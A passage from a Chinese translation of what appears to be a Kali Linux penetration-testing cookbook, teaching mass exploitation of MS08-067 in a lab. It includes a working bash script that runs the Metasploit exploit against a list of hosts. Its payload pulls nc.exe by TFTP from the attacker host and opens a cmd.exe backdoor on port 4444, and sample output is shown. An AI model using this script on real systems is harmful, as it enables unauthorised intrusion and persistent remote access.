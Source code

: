 每个终端启动单独的 MSFCLI 实例并执行利用。 假设攻击成功，会执行载荷，并且交互式 Meterpreter shell 将在每个单独的终端中可用。

### 工作原理

通过对每个进程使用单独的终端，可以使用单个 bash 脚本执行多个并行利用。 另外，通过使用为`LPORT`分配的递增值，可以同时执行多个反向 meterpreter shell。

## 8.6 使用可执行后门的多线程 MSF 利用

该秘籍演示了如何使用 bash ，在多个系统上利用单个漏洞，并在每个系统上打开一个后门。 后门包括在目标系统上暂存 Netcat 可执行文件，并打开监听服务，在收到连接后执行`cmd.exe`。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表，来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; 
exit; fi

iplist=$1

for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c \"tftp -i 172.16.36.239 GET nc.exe && nc.exe -lvp 4444 -e cmd.exe\"" RHOST=$ip E   
    echo "Exploiting $ip and creating backdoor on TCP port 4444" 
done 
```

此脚本与上一个秘籍中讨论的脚本不同，因为此脚本在每个目标上安装一个后门。 在每个被利用的系统上，会执行一个载荷，它使用集成的简单文件传输协议（TFTP）客户端来抓取 Netcat 可执行文件，然后使用它在 TCP 端口 4444 上打开一个`cmd.exe`监听终端服务。为此， TFTP 服务将需要在 Kali 系统上运行。 这可以通过执行以下命令来完成：

```
root@KaliLinux:~# atftpd --daemon --port 69 /tmp 
root@KaliLinux:~# cp /usr/share/windows-binaries/nc.exe /tmp/nc.exe 
```

第一个命令在 UDP 端口 69 上启动 TFTP 服务，服务目录在`/ tmp`中。 第二个命令用于将 Netcat 可执行文件从`Windows-binaries`文件夹复制到 TFTP 目录。 现在我们执行`./multipwn.sh` bash shell：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> 
root@KaliLinux:~# ./multipwn.sh iplist.txt 
Exploiting 172.16.36.132 and creating backdoor on TCP port 4444 
Exploiting 172.16.36.158 and creating backdoor on TCP port 4444 
Exploiting 172.16.36.225 and creating backdoor on TCP port 4444 
```

